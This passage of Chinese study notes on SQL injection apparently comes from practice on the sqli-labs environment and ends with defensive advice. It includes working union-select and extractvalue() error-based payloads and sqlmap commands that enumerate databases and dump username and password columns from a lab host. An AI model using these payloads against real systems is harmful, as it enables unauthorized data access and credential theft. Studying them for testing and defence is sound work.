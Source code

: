 6. sql注释：--+可注释后面语句

7. 判断该表有多少个字段：order by 3：表示将查询结果按照第==3==个字段升序排序，如果没有第3个字段则会报错，所以用作探测该表中有多少个字段

8. 判断哪几个字段会回显：1' and1=2 union select 1,2,3 --+

   1. 1’：用于让之前的sql查询语句闭合，使其语法无误
   2. and 1=2：虽然之前语句语法无误，但1=2显然不成立，让其不输出结果
   3. union select 1,2,3：将1,2,3作为sql查询结果输出给php（order by 后面数据的个数必须和之前select查询的字段数相同）
   4. --+：注释sql中后面语句
   5. 这句的目的是获得查询语句的哪些字段会==显示==在页面上，例如 1，2,3,4....n,中哪些数字输出了，哪几个字段就会

9. mysql数据库有一个自带数据库information_schema：

   1. 有数据表tables：
      1. 字段table_schema包括所有数据库名
      2. 字段table_name包括所有数据表名
   2. 有数据表columns
      1. 字段table_name包括所有数据表名
      2. 字段column_name包括所有字段名

10. ==注意==：非数字类型的参数都用用引号引起

11. group_concat(column_name):将所有返回所有coloumn_name记录，用逗号连接成字符串返回

12. 对于不回显的网页，可以利用报错信息获得查询结果

    1. 使用extractvalue() 报错注入两个参数，第一要读取的文件（填1），第二个要报错的内容
    2. ==?id=1' and extractvalue(1,concat(0x23,database(),0x23))==，由于0x23是非法字符，所以concat包括的字符串会被报错，返回concat中所有信息
    3. and extractvalue(1,concat(0x23,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x23))--+  爆表名（注意，里面的子查询需要用括号括起来）

13. sqlmap使用方法（get类型）:

    1. 获得有哪些数据库：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -dbs
    2. 获得某个数据库有哪些数据表：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -D security --tables
    3. 获得某张表有哪些字段：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -D security -T users -columns
    4. 获得某些字段有哪些元组：sqlmap -u http://192.168.23.132/sqli-labs/Less-5/?id=6 -D security -T users -C id,username,password --dump

14. sqlmap（post类型）

    1. sqlmap -r  1.txt -dbs。1.txt包含请求包，注入处要加*号

15. 过滤，严格控制输出输出、对输入数据进行参数化、静态处理字符串

16. 防范：l 不信任用户的输入，如对用户的输入进行校验（可以通过正则表达式，或限制长度）、对单引号和双"-"进行转换等；

    l 不使用动态拼装SQL，可使用参数化的SQL或者直接使用存储过程进行数据查询存取；

    l 不使用管理员权限的数据库连接，为每个应用使用单独的、权限有限的数据库连接；

    l 不把机密信息明文存放，请加密或者hash掉密码和敏感的信息；

    l 应用的异常信息应该给出尽可能少的提示，最好使用自定义的错误信息对原始错误信息进行包装，把异常信息存放在独立的表中。

17. 分类：回显SQL、报错SQL

18. get类型输入不能用#表示注射：因为#在url中是定位到页面某个锚点的意义，所以
